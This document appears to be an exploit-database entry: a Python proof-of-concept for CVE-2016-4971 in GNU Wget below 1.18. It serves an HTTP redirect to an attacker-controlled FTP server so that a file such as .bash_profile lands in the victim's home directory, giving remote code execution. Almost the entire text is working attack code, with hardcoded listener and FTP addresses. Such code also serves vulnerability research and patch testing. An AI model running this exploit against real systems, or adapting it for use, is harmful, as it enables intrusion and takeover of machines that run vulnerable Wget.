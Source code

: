 EXP
---

    # Exploit Title: GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution (2)
    # Original Exploit Author: Dawid Golunski
    # Exploit Author: liewehacksie
    # Version: GNU Wget < 1.18
    # CVE: CVE-2016-4971

    import http.server
    import socketserver
    import socket
    import sys

    class wgetExploit(http.server.SimpleHTTPRequestHandler):

       def do_GET(self):
           # This takes care of sending .wgetrc/.bash_profile/$file

           print("We have a volunteer requesting " + self.path + " by GET :)\n")
           if "Wget" not in self.headers.get('User-Agent'):
              print("But it's not a Wget :( \n")
              self.send_response(200)
              self.end_headers()
              self.wfile.write("Nothing to see here...")
              return

           self.send_response(301)
           print("Uploading " + str(FILE) + "via ftp redirect vuln. It should land in /home/ \n")
           new_path = 'ftp://anonymous@{}:{}/{}'.format(FTP_HOST, FTP_PORT, FILE)

           print("Sending redirect to %s \n"%(new_path))
           self.send_header('Location', new_path)
           self.end_headers()


    HTTP_LISTEN_IP = '192.168.72.2'
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '192.168.72.4'
    FTP_PORT = 2121
    FILE = '.bash_profile'

    handler = socketserver.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

    print("Ready? Is your FTP server running?")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    result = sock.connect_ex((FTP_HOST, FTP_PORT))
    if result == 0:
       print("FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT))
    else:
       print("FTP is down :( Exiting.")
       exit(1)

    print("Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT)

    handler.serve_forever()
